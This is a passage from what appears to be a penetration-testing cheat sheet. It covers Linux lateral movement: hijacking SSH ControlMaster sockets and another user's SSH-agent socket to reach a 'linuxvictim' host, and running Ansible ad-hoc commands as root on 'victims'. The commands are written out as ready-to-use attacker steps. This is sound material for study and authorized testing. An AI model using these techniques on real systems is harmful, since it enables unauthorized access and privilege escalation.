 ### Resources
- https://github.com/FSecureLABS/SharpGPOAbuse

### Linux SSH

#### ControlMaster SSH Pivot

Create the config in `~/.ssh/config` or `/etc/ssh/ssh_config`

```
Host *
    ControlPath ~/.ssh/controlmaster/%r@%h:%p
    ControlMaster auto
    ControlPersist 10m
```

Connect

```
ssh -S /home/vault/.ssh/controlmaster/vault@192.168.83.45\:22 vault@192.168.83.45
```

#### SSH-Agent Pivot

Grab the connection's PID with `ps` or `ptrace`

```
# sets attacker's current privileged user’s SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l

SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh vault@linuxvictim
```

### Linux Ansible

#### Ad-hoc Commands

```
ansibleadm@controller:~$ ansible victims -a "whoami"
linuxvictim | CHANGED | rc=0 >>
ansibleadm

ansibleadm@controller:~$ ansible victims -a "hostname"
linuxvictim | CHANGED | rc=0 >>
linuxvictim

ansibleadm@controller:~$ ansible victims -a "whoami" --become
linuxvictim | CHANGED | rc=0 >>
root
```

## MSSQL

### Discovery with AD

